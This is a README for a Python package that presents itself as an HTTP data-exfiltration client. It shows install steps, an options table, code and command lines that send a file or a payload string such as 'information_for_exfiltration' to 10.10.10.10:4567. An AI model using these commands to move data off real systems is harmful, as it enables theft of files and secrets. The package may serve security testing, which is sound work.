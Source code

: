 # Description

A client to exfiltrate data through HTTP protocol

# Installation

`pip install npdep_http_client`

# Usage

**From command line:**

`python -m http_client [-h] [--mode {payload,file}] --ip IP --port PORT [--pkgSize PKGSIZE] [--path PATH] [--filePath FILEPATH] [--payload PAYLOAD]`

| Option | Short | Type | Default | Description |
|---|---|---|---|---|
|--mode | -m | String | file | file = Sends file  `--filePath` in `--pkSize` chunks per HTTP request <br> payload = Sends `payload` per HTTP request |
|--ip | -i | String | - | IP address of destination |
|--port | -p | Int | - | Port of destination |
|--pkgSize | -k | Int | 1200 | Nr. of bytes to load from file under `--filePath` in chunks |
|--path | -t | String | / | Path for HTTP request |
|--filePath | -e | String | - | Path to file which shall be send in mode: file |
|--payload | -a | String | - | Payload to be send in mode: payload |

**Programmatically:**

```python

from http_client.util.Util import Util
from http_client.type.RequestType import RequestType
from http_client.client.Client import Client

client = Client("10.10.10.10", 4567)

# Get request type
requestType = RequestType.VALUES["file"]

if(requestType == RequestType.FILE):
    Util.sendFileWithHttpRequest(client, 1200, "/", "path/to/file/data.txt")
elif(requestType == RequestType.PAYLOAD):
    client.sendHttpRequest(s=None, path="/", payload="information_for_exfiltration")
    

```
# Example

`python -m http_client -i 10.10.10.10 -p 4567 -m payload -a "information_for_exfiltration"`

Sends `information_for_exfiltration` to `10.10.10.10` on port `4567` as an HTTP request.